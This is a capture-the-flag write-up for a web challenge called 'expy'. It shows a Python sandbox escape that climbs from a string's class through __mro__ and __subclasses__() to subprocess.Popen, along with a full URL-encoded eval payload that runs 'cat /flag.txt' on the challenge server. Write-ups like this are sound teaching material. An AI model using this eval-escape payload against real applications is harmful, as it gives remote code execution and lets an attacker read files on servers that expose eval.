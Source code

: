 # expy
![](https://img.shields.io/badge/category-web-blue)
![](https://img.shields.io/badge/points-300-orange)

## Description
Quick and simple.

The flag is in `/flag.txt`.

[expy.py](https://ctf.mcpt.ca/media/problem/dKa3CixJkhhCZU3RmoaBIze9GcQZ74Uja9uGg7RRkVc/expy.py)

## Solution
We can see that sending an `eval` parameter to the page causes it to evaluate our input. However, all the Python builtins are disabled!

That's not a problem, because of Python's sketchy inheritance system. Every class stores a list of all classes it inherits, and all classes that inherit it. While builtin classes are disabled, there is one class that they can't disable: string.

```py
"bob".__class__             => <class 'str'>
"bob".__class__.__mro__     => (<class 'str'>, <class 'object'>)
```

Now since everything inherits object, we can get a list of all object subclasses.
```py
"bob".__class__.__mro__[1].__subclasses__()   => returns a whole list of objects that inherit object
```

Now, we can find some useful function, like subprocess.Popen to give us remote code execution.

```
http://7e44b50.0x16.ink/?eval=%27bob%27.__class__.__mro__%5B1%5D.__subclasses__%28%29[224](%22cat%20/flag.txt%22,%20shell=True,%20stdout=-1).communicate() 

http://7e44b50.0x16.ink/?eval='bob'.__class__                   <== get the string class
                                   .__mro__[1]                  <== get the object class
                                   .__subclasses__()[224]       <== find the subprocess.Popen
                                   ("cat /flag.txt", shell=True, stdout=-1).communicate()
```

Note that the 224 offset may be different depending on the environment. It must be the index that corresponds to Popen.


Flag: `placeholder - problem hidden`
